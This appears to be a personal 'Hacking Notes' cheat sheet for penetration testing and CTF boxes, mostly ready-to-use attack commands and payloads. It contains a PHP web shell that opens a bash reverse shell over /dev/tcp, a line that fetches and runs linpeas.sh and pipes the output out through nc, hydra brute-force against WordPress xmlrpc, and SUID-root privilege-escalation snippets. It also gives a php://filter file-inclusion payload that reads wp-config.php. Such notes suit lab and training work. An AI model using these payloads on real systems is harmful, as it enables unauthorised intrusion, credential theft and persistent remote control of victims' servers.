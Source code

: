 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |
| smbclient | smbclient -L \\\\[IP]\\[Directory] |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Analysis with external files: curl [IP]:8000/linpeas.sh | sh | nc [IP] [PORT]
Start HTTP Server: python3 -m http.server [PORT]
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```
Binaries (and examples)
```
/usr/bin/dash -p
Path: /usr/bin/find. Exp: find . -exec /bin/sh -p \; -quit

import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
os.system("cp /bin/bash /tmp/bash; chmod +s /tmp/bash")
os.system('chmod u+s /bin/dash')

```

LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Escape  restricted environments (vim)
```
:!/bin/sh
:set shell=/bin/sh // :set shell=/bin/bash
:shell
```

## Snoop on processes without need for root permissions
```
32-bit small version: https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32s
ref: https://github.com/DominicBreuker/pspy
```
## Port Scanning

One-liner
```
python3 -c 'import socket,ipaddress;[print(f"{ip} Port {p} OPEN") for ip in list(ipaddress.IPv4Network("[RANGE]").hosts())[100:200] for p in range(1,65535) if not socket.socket().connect_ex((str(ip),p))]' 
```

## Dynamic tunnel
Over Socks 5: ssh -D PORT [USER]@[IP]
![image](https://github.com/user-attachments/assets/bb6c4651-ac44-4144-9765-845565b9a826)

## Force the server to read and encode the file before processed
Example (with LFI, wp file) 
http://[IP]/lx.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

## Check commands in a restricted shell
"TAB TAB"

# FIles
vim ~/.bash_logout
vim ~/.config/


